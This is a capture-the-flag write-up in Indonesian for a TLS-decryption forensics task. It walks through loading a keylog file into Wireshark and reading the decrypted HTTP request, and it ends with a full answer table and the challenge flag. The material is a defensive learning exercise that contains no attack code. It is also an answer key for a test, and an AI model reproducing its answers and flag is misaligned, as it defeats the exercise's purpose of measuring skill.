**Deskripsi Soal:** Eiri menyembunyikan komunikasi malware di balik saluran terenkripsi TLS. Namun Alice telah menyediakan file keylog untuk mendekripsi lalu lintas data tersebut. 

**File capture:** `wired_tls_decrypt.pcapng` + `keylogfile.txt`

**Analisis:** versi protokol TLS yang dinegosiasikan, nama domain (SNI) yang diakses, alamat IP server HTTPS penyerang, User-Agent yang digunakan, serta HTTP request method dan path yang tersembunyi di dalam sesi dekripsi

**Validasi:** 
``` 
nc 10.4.89.247 3407
```

### Penyelesaian dan Hasil Analisis
1. Masuk ke menu **Edit > Preferences > Protocols > TLS**.

2. Di bagian **(Pre)-Master-Secret log filename**, klik **Browse** dan pilih file `keylogfile.txt`. Ini yang membuat Wireshark bisa "mengintip" isi paket TLS yang sebelumnya terenkripsi.

3. Klik **OK**.
4. Filter `tls.handshake.type == 1` untuk mencari paket **Client Hello** ini paket pertama pas TLS mulai "kenalan" (handshake), isinya info penting soal koneksi yang mau dibuat.

5. Dari paket Client Hello ini, ditemukan:
   - **Versi TLS** yang dinegosiasikan: `TLSv1.2`
   - **SNI (Server Name Indication / nama domain tujuan)**: `example.com`
6. Cek di header IP paketnya **IP server HTTPS**: `93.184.216.34`
7. Filter `http` (karena sudah didekripsi, HTTP di dalam TLS bisa kelihatan). Klik salah satu paket: **Follow > HTTP Stream** (atau TLS Stream) buat baca request lengkapnya:
   ```
   HEAD / HTTP/1.1
   Host: example.com
   User-Agent: curl/7.62.0
   ```
   - **User-Agent**: `curl/7.62.0`
   - **Method dan path request**: `HEAD /`

   
### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| Versi protokol TLS | `TLSv1.2` |
| Nama domain (SNI) | `example.com` |
| IP server HTTPS | `93.184.216.34` |
| User-Agent | `curl/7.62.0` |
| Method + path request | `HEAD /` |


**Flag:** `KOMJAR26{TLS_D3crypt_dJhAWIgytZs1jm4DqRKGaKFiG}`

